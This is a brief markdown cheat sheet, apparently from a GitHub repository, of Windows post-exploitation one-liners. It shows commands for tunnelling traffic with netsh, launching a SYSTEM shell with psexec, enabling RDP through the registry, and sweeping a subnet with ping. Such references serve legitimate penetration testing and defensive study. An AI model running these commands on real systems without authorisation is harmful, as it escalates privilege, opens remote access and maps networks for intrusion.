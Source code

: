 # Windows Commands for Post Exploitation

One liners
-----------
**Tunnel traffic natively with windows**
```bash
netsh int portproxy v4tov4 listenport=80 connecthost=10.0.0.1 connectport=80
```

**Launch cmd.exe as local system w/ psexec**
```bash
psexec -s cmd.exe
```

**Enable rdp with CLI**
```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

**Launch ARP scan**
```bash
for /L %i in (1,1,255) do @start /b ping -n 1 -w 1 192.168.1.%i
```